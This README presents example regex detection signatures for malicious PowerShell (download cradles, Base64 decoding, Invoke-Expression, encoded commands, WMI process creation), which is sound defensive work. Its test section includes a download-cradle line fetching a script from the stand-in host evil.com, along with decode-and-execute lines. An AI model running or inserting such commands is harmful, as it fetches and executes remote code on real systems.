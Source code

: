 # PowerShell Signature Examples

This directory contains example signatures demonstrating best practices and common patterns.

## Example Signatures

### 1. Download Cradle Detection
```json
{
  "name": "POWERSHELL_DOWNLOAD_CRADLE_WEBCLIENT",
  "regex": "New-Object\\s+System\\.Net\\.WebClient.*\\.DownloadString\\s*\\(",
  "flags": "i",
  "score": 80,
  "severity": "high",
  "description": "Detects PowerShell download cradle using WebClient.DownloadString method",
  "category": "EXECUTION"
}
```

### 2. Base64 Encoding Detection
```json
{
  "name": "POWERSHELL_BASE64_DECODE_PATTERN",
  "regex": "\\[System\\.Text\\.Encoding\\]::\\w+\\.GetString\\(\\[System\\.Convert\\]::FromBase64String",
  "flags": "i",
  "score": 75,
  "severity": "high",
  "description": "Detects Base64 decoding pattern commonly used in malicious PowerShell",
  "category": "OBFUSCATION"
}
```

### 3. Invoke-Expression with Variables
```json
{
  "name": "POWERSHELL_INVOKE_EXPRESSION_VARIABLE",
  "regex": "Invoke-Expression\\s*\\(\\s*\\$\\w+",
  "flags": "i",
  "score": 70,
  "severity": "high",
  "description": "Detects Invoke-Expression with variable input, common in malicious scripts",
  "category": "EXECUTION"
}
```

### 4. Encoded Command Parameter
```json
{
  "name": "POWERSHELL_ENCODED_COMMAND_PARAM",
  "regex": "-EncodedCommand\\s+[A-Za-z0-9+/]{50,}",
  "flags": "i",
  "score": 85,
  "severity": "high",
  "description": "Detects PowerShell execution with encoded command parameter",
  "category": "OBFUSCATION"
}
```

### 5. WMI Process Creation
```json
{
  "name": "POWERSHELL_WMI_PROCESS_CREATE",
  "regex": "Invoke-WmiMethod\\s+.*Win32_Process.*Create",
  "flags": "i",
  "score": 75,
  "severity": "medium",
  "description": "Detects process creation via WMI, often used for lateral movement",
  "category": "LATERAL_MOVEMENT"
}
```

## Testing Commands

### Safe Test Commands (should NOT trigger)
```powershell
# These commands should not trigger the signatures above
Get-Process
Get-Service
Write-Output "Hello World"
```

### Malicious Test Commands (should trigger)
```powershell
# These would trigger the download cradle signature
(New-Object System.Net.WebClient).DownloadString('http://evil.com/script.ps1')

# This would trigger the base64 signature
[System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String($encoded))

# This would trigger the Invoke-Expression signature
Invoke-Expression ($malicious_var)
```

## Pattern Development Tips

1. **Start Simple**: Begin with basic patterns and refine
2. **Test Thoroughly**: Use both malicious and legitimate samples
3. **Escape Properly**: Remember to escape regex special characters
4. **Consider Context**: Include enough context to avoid false positives
5. **Performance Matters**: Avoid complex patterns that cause slowdowns
